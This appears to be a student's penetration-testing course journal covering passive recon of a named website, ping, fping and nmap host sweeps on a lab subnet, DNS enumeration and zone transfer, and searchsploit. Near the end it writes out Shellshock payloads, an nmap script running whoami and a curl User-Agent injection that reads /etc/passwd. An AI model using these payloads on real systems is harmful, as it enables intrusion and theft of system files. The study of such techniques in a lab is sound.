 # Journal

## 1/21/2022
#### Passive Recon
- www.boltonvalley.com
- Tools
 - `whois`
 - `nslookup`
 - theHarvester
 - [archive.org](https://archive.org)

## 1/27/2022
- setup crd on kali
- installed wireguard on kali
- `sudo apt install wireguard`

## 1/28/2022
- ephemeral port on src device
### Host Discovery
- ping
```bash
for ip in $(seq 2 50); do ping 10.0.5.$ip -c 1 -t 20| grep "bytes from" | grep -oP "(\d+\.){3}\d+" >> sweep.txt; done
```
- fping
```bash
sudo fping -g 10.0.5.2 10.0.5.50 | grep "alive" | cut -d " " -f 1 >> sweep2.txt
```
- nmap
```bash
sudo nmap -n --open -sn 10.0.5.2-50 | grep report | cut -d " " -f 5 > sweep3.txt
```
- & to not wait for command to complete
#### Reflections
- Had trouble with running bash file - Fixed with
```bash
chmod +x
```
- Really slow until lowered ttl for pings

## 2/3/2022
### nmap
- Needs sudo to check with ICMP to see if host is open
- Checks all ports even if host is down:
```bash
sudo nmap ip -Pn
```
- Target specific ports:
```bash
sudo nmap ip -p ports
```
- Get versions of:
```bash
sudo nmap ip -sV
```
- Checks everything and tracert:
```bash
sudo nmap ip -A
```
### Port Scanning
#### Enable RDP
- Settings > System > Remote Desktop
#### Reflection
- OS and Version detection not always accurate

## 2/4/2022
### PowerShell and DNS
- use single quotes around period to escape it
```bash
Resolve-DnsName -Name $network'.'$i -DnsOnly -Server $server | Select-Object -Property Name,NameHost
```
- for loops with -gt,-lt,-eq
- Pipe to Get-Member to list properties
- Pipe to Select-Object to use those properties
## 2/10/2022
### Bash and DNS
[DNS page](dns-enumeration.md)
### Reflections
- nmap -oG for greppable output
- `
dig axfr @nameserver domain
` for zone transfer
- `
nslookup -vc
` to use TCP instead of UDP
- `
nmap -sS -sU
` to query tcp and udp ports

## 2/11/2022
### Searchsploit
- use with version name and number to get exploits
- use with -m exploit number to download
### Test
- `
nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/status,cmd="echo ; echo ; /usr/bin/whoami" 10.0.5.23
`
- `
curl -H 'User-Agent: () { :; }; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.0.5.23/cgi-bin/status
`
#### Reflections
- `
xfce4-panel -r
` to reload top bar
